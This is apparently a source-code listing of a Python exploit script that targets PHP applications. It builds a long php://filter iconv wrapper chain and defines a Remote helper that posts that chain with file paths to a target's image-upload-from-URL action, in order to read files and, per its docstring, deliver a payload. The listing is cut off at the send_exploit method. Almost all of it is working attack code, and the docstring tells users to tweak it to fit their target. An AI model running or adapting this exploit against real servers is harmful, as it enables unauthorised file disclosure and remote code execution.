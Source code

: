 ~~~ python

from dataclasses import dataclass
from requests.exceptions import ConnectionError, ChunkedEncodingError

from pwn import *
from ten import *

HEAP_SIZE = 2 * 1024 * 1024
BUG = "劄".encode("utf-8")

wrappers_chain = "'php://filter/convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.CSGB2312.UTF-32|convert.iconv.IBM-1161.IBM932|convert.iconv.GB13000.UTF16BE|convert.iconv.864.UTF-32LE|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.CP-AR.UTF16|convert.iconv.8859_4.BIG5HKSCS|convert.iconv.MSCP1361.UTF-32LE|convert.iconv.IBM932.UCS-2BE|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.IBM932.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.CSA_T500.UTF-32|convert.iconv.CP857.ISO-2022-JP-3|convert.iconv.ISO2022JP2.CP775|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.CP-AR.UTF16|convert.iconv.8859_4.BIG5HKSCS|convert.iconv.MSCP1361.UTF-32LE|convert.iconv.IBM932.UCS-2BE|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.8859_3.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932|convert.iconv.SJIS.EUCJP-WIN|convert.iconv.L10.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.base64-decode/resource='"


class Remote:
    """A helper class to send the payload and download files.
   
    The logic of the exploit is always the same, but the exploit needs to know how to
    download files (/proc/self/maps and libc) and how to send the payload.
   
    The code here serves as an example that attacks a page that looks like:
   
    ```php
    <?php
   
    $data = file_get_contents($_POST['file']);
    echo "File contents: $data";
    ```
   
    Tweak it to fit your target, and start the exploit.
    """

    def __init__(self, url: str) -> None:
        self.url = url
        self.session = Session()

    def send(self, path: str) -> Response:
        """Sends given `path` to the HTTP server. Returns the response.
        """

        data = {'action' : 'upload_image_from_url',
                'url' : urllib.parse.quote_plus(wrappers_chain + path),
                'id' : '1',
                'accepted_files' : 'image/gif'}
        return self.session.post(self.url, data=data)


    def send_exploit(self, payload: bytes) -> Response:
        """Sends the payload to the server.
        """
~~~